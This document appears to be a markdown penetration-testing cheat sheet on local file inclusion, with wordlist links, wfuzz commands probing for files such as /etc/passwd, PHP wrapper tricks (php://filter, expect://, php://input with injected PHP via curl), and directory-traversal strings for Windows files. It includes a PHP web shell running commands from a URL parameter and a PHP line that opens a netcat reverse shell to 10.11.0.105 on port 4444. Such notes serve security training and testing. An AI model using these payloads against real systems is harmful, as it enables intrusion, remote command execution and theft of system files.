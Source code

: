 - - -
### 🐶️ **Wordlists** **:**

- [LFI-Payload-List](https://raw.githubusercontent.com/emadshanab/LFI-Payload-List/master/LFI%20payloads.txt)
- [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders)
- - -

### 🐯️ **System files Wordlists** **:** **(** Both Win/Linux **)**

- [Sirensecurity.io](https://sirensecurity.io/blog/file-inclusion-reference/)

- - -
### Useful Payloads : 

```php
<?php echo shell_exec($_GET['cmd']);?>
```

```php
<?php
echo shell_exec("nc.exe 10.11.0.105 4444 -e cmd.exe")
?>
```


- - -
## Fuzzing :

##### **<u>Finding Parameters Name</u> :**
```sh
wfuzz -u http://10.10.10.10/image.php?FUZZ=/etc/passwd -c -w /opt/seclists/Discovery/Web-Content/api/objects.txt
``` 


##### **<u>Finding Files</u> :**

```sh
wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hh 0 "$URL/index.php?id=FUZZ"
```


- - -

## PHP Wrappers 🎁 🎁 🎁 

##### **<u>Wrapper php://filter</u>**

```php
php://filter/convert.base64-encode/resource=
```

##### **<u>Wrapper expect://</u>**

```php
expect://id
```

##### **<u>Wrapper input://</u>**

```bash
curl -k -v "http://example.com/index.php?page=php://input" --data "<?php echo shell_exec('id'); ?>"
```

- - -
### Common Windows Files : 

**Accessible By  Everyone :**
```sh
file=C:\windows\system32\drivers\etc\hosts

file=../../../../../boot.ini
```

- - -
